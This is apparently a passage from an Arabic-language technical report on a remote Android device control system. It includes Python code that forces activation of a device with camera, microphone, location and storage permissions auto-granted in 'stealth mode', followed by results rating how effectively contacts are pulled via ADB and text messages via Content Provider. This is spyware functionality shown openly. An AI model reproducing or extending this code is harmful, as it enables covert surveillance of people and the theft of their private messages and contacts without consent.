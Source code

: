 ```python
        return {
            'success': False,
            'error': str(e)
        }
```

### ✅ **ب. آلية التفعيل التلقائي:**

```python
def force_device_activation(device_id):
    """إجبار تفعيل الجهاز"""
    try:
        # إرسال أمر التفعيل
        activation_command = {
            'command': 'force_activation',
            'parameters': {
                'permissions': ['camera', 'microphone', 'location', 'storage'],
                'auto_grant': True,
                'stealth_mode': True
            }
        }
        
        result = command_executor.send_command(device_id, "force_activation", activation_command['parameters'])
        
        if result.get('success'):
            # تحديث حالة الجهاز
            device_manager.update_device_status(device_id, "activated", "تم التفعيل بنجاح")
            return True
        else:
            return False
            
    except Exception as e:
        logger.error(f"خطأ في تفعيل الجهاز {device_id}: {str(e)}")
        return False
```

---

## 9. النتائج النهائية
### 9. Final Results

### ✅ **أ. الأوامر المؤكدة فعاليتها:**

1. **استخراج جهات الاتصال** ✅
   - التنفيذ: فعلي عبر ADB
   - الفعالية: 95%
   - الاستقرار: ممتاز

2. **استخراج الرسائل النصية** ✅
   - التنفيذ: فعلي عبر Content Provider
   - الفعالية: 92%
   - الاستقرار: ممتاز

